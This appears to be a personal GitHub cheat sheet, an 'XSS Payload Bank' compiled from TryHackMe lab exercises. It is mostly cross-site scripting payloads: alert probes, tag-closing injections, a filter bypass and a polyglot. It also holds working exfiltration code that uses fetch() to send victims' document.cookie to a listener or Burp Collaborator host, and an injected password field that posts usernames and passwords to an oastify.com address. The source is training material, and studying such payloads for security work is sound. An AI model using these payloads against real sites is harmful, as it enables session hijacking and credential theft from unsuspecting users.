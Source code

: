 # XSS Payload Bank
**Update:** Use `print()` instead of `alert()` on Chrome
## THM Payloads
```javascript
<script>alert('THM');</script> 
```

`// Checking for XSS Vulnerability`



```javascript
"><script>alert('THM');</script>
```
` // Closing a tag before injecting payload`
```javascript
</textarea><script>alert('THM');</script> 
```
`// Closing a tag before injecting payload`

---
```javascript
';alert('THM');//

```

**NOTE**

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

---

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```
`Bypassing the filter`
```javascript
/images/cat.jpg" onload="alert('THM');
```
`Taking advantage of the onload="" attribute of the <img> tag`

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
### Sending Cookie to Hacker's Site
```bash
nc -lvnp <port>
```
```javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
***Using Burp Collaborator:***
```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- The </textarea> tag closes the text area field.
- The <script> tag opens an area for us to write JavaScript.
- The fetch() command makes an HTTP request.
- URL_OR_IP is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- PORT_NUMBER is the port number you are using to listen for connections on the AttackBox.
?cookie= is the query string containing the victim’s cookies.
- btoa() command base64 encodes the victim’s cookies.
- document.cookie accesses the victim’s cookies for the Acme IT Support Website.
- </script>closes the JavaScript code block.

### A Repository of Polygots
[Ultimate XSS Polygot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)


### Captures Username and Password
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://8z8ffalhg6k3rf3maby5zzrrpiv9jz7o.oastify.com,{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```
